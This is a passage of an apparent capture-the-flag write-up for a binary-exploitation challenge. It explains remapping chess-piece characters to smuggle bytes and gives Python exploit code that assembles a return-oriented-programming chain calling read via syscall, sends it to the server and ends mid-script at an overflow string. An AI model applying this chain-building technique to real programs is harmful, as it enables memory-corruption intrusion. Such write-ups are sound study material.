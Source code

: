 In total, to call `read` we will need a total of 11 bytes.

Also notice that we can't write spaces, so when replacing the pieces we need to make sure that none of our desired space is at position 6 or 12(`KQRBNP kqrbnp *`).

Here is the new pieces that's gonna be sent to the server `new = '\xcf\x2a\x40\xc8X\x4bX\x8b\x45\x4aX\x89\x39X\x00'`. There are X's on a space or on an unused position.

Now, we will make our first ropchain. I have created this function which is gonna convert our ropchain to the basic pieces that the program is taking as input:

```py
default_pieces = 'KQRBNP kqrbnp *'
new = '\xcf\x2a\x40\xc8X\x4bX\x8b\x45\x4aX\x89\x39X\x00'

def convert_chain(chain):
    fixed = ''
    for i in chain:
        idx = new.index(chr(i))
        fixed += default_pieces[idx]

    return fixed
```

It will take each character in our payload, and convert it to the corrosponding character in `default_pieces`

Here is the full code of this part:

```py
def visualize(pos):
    p.recvuntil("Quit.")
    p.sendline('1')
    p.recvuntil(": ")
    p.sendline(pos)

def customize(new_set):
    p.recvuntil("Quit.")
    p.sendline('2')
    p.recvuntil(".")
    p.send(new_set)

MOV_RSI_RDI = 0x00000000004b2ac8# mov rsi, rdi; do-stuff; ret
POP_RDI = 0x0000000000402acf # pop rdi
POP_RDX_RCX = 0x00000000004a458b # pop rdx; pop rcx; ret
SYSCALL = 0x0000000000458939 # syscall; ret

default_pieces = 'KQRBNP kqrbnp *'
new = '\xcf\x2a\x40\xc8X\x4bX\x8b\x45\x4aX\x89\x39X\x00'

def convert_chain(chain):
    fixed = ''
    for i in chain:
        idx = new.index(chr(i))
        fixed += default_pieces[idx]

    return fixed

payload = p64(MOV_RSI_RDI) + p64(POP_RDI) + p64(0) + p64(POP_RDX_RCX) + p64(0xcfcfcfcf) + p64(0xcfcfcfcf) + p64(SYSCALL)

payload = convert_chain(payload)

customize(new)


reachRIP = '///////8888888888888888888888'
```